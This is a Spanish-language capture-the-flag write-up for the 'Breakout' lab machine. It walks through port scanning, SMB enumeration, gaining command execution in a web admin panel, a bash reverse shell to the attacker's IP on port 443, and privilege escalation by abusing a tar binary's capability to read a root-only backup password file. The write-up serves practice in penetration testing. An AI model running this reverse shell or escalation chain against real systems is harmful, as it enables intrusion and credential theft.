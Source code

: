 # Breakout

- https://www.dcode.fr/brainfuck-language Pagina para desencriptar 

## Summary

- IP -> random 192.168.
- Ports -> TCP (80,139,445,10000,20000), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 80 -> Apache httpd 2.4.51
    - 139 -> Samba smbd 4.6.2
    - 445 -> Samba smbd 4.6.2
    - 10000 -> http Miniserv 1.981
    - 20000 -> http Miniserv 1.830

Cosas a tomar en cuenta en una WebPage:
	- Errores de codigo, dejan olvidada alguna cosa dentro de la pagina
	- Ctrl + u -> Para ver el codigo de la WebPage y encontrar alguna pista en todo su código
	- 


## Recon
- **ifconfig** Para ver nuestra dirección IP '192.168.68.108'
- **Nmap 192.168.68.1/24** Hacemos eso para que Nmap pueda buscar direcciones IP en nuestro entorno, además de exponer sus servicios, así como mostrar que tipo de dispositivo es y así podremos encontrar la maquina de VulHub '192.168.68.111'

- **nmap -sV -p- 192.168.68.111** 
	- sV -> Detectamos la version y los servicios activos 
	- -p- ->Escaneo de todos los puertos TCP

Encontramos en la pagina web por el puerto 80 en su código fuente una encriptacion, por lo que nos disponemos a desencriptar.
Ahora nos disponemos a verificar los otros dos puertos http que son el 10000 y 20000 en la WebPage

Miramos que en el puerto 20000 tenemos un login, por lo que tendriamos la passwd pero nos falta el usuario. Por lo que nos disponemos a hacer enumeracion de la sigueinte manera.

- **enum4linux -a 192.168.68.111** Colocamos la direccion IP de la maquina victima y hacemos la enumeracion de datos, informacion, sesiones, etc...
Encontramos un posible usuari llamado Cyber

Una vez dentro de la pagina, nos ponemos a inspeccionarla para que ver como podemos encontrar, en esta maquina un comando Shell (cmd). Para esta maquina existen dos formas de ejecutar comandos, la primera es con el simbolo cmd y la segunda es por una pestana de la misma pagina, en donde nos permite la ejecucion de los comandos.

Ahi podemos colocar diferentes comandos para poder encontrar informacion valiosa.

## User
Una vez utilizando esa cmd, podemos hacer una revershell a nuestra maquina de atacante de la siguiente manera
Podemos observa la flag del usuario desde esa misma consola de la pagina web

- **bash -c 'bash -i >& /dev/tcp/192.168.68.108/443 0>&1'** En la cdm de la pagina web agregamos el comando de la ReverShell
- **nc -nlvp 443** Este comando en nuestra maquina de atacante para recibir la revershell de la maquina victima

- **cat /etc/issue** Para ver informacion del sistema
- **uname -a** Ver la version de Linux

## Root
- **find / -perm 4000 -type 2>/dev/null** Nos filtrara archivos binarios con permisos 
- **find / -perm 4000 -type f 2>/dev/null** Nos filtrara archivos binarios con permisos (f=files) buscara archivos files con permisos S
- **getcap -r / 2>/dev/null** Verificar los permisos de los archivos encontrados 'capabilities'
	- Encontramos ahi el **'/homeCyber/tar cap_dac_read_search=ep'**

* **cd /var/baskups** Para ir al directorio del servidor mismo y ver las passwd 
	* **ls -la** Para ver todos los archivos dentro de ese dir y ahi encontramos el '.old_pass.bak' que serian los passwd de respaldo antiguas

Nos regresamos al dir principal de Cyber para poder mover el archivo '.old_pass.bak' pero ese archivo solo lo puede leer root, por lo que ocuparemos el siguiente comando. 

- **./tar -cvf passwd.tar /var/backups/.old_pass.bak** Crearemos el archivo llamado 'passwd.tar' y el contenido de la ruta que queremos mover
- **tar -xf passwd.tar** Para hacer que nos abra el archivo que movimos y nos extrae un archiv **var**
- **cd var** Nos movemos dentro de var
	- **cd baskups** Nos movemos a backups y encontraremos otro archivo llamado '.old_pass.bak'
	- **cat .old_pass.bak** Para leer el archivo y nos muestra una passwd

- **su root** Para cambiar de usuario, en este caso es root y le ponemos la passwd que hemos encontrado
Ahora buscamos la flag de root.txt 